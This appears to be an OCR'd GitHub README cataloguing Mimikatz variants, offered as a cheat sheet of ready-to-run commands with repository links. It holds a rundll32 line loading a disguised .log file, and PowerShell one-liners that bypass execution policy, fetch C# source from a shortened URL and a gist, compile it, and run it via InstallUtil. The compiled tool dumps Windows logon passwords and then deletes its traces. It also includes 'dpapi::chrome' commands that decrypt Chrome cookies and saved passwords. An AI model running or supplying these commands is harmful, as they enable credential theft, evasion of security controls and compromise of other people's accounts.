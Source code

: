 https://github.com/Ninja-Tw1sT/-Have-You-Seen-These-Katz-



### MimiRunner

```
rundll32 *.log,#1
```

https://github.com/mobdk/MimiRunner



### Mimikatz-PE-Injection

```
powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://is.gd/Dopn98','katz.cs'); && cd c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe /unsafe /reference:System.IO.Compression.dll /out:katz.exe katz.cs && InstallUtil.exe /logfile= /LogToConsole=false /U katz.exe && katz.exe log privilege::debug sekurlsa::logonpasswords exit && del katz.*

*** In the above command '/out:katz.exe katz.cs' the 'katz.cs' should be the path where initially powershell downloads the CS file ***

powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://gist.githubusercontent.com/analyticsearch/7b614f8badabe5bedf1d88056197db76/raw/13966117e4ba13be5da0c4dc44ac9ebfd61fe22a','katz.cs'); && cd c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe /unsafe /reference:System.IO.Compression.dll /out:katz.exe \\share_ip\share_name\katz.cs && InstallUtil.exe /logfile= /LogToConsole=false /U katz.exe && katz.exe log privilege::debug sekurlsa::logonpasswords exit && del katz.*

cd %temp% && powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://gist.githubusercontent.com/analyticsearch/7b614f8badabe5bedf1d88056197db76/raw/13966117e4ba13be5da0c4dc44ac9ebfd61fe22a','katz.cs'); && cd c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe /unsafe /reference:System.IO.Compression.dll /out:katz.exe %temp%\\katz.cs && InstallUtil.exe /logfile= /LogToConsole=false /U katz.exe && katz.exe log privilege::debug sekurlsa::logonpasswords exit && del katz.* && move mimikatz.log %temp%\\katz.log && cd %temp% && del %temp%\\katz.cs
```

https://github.com/analyticsearch/Mimikatz-PE-Injection


### ninifox

```
.\Invoke-NiNifox.ps1
```

https://github.com/scottjosh/ninifox




### Chexport

```
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect`

`dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data For Account" /unprotect`

`dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
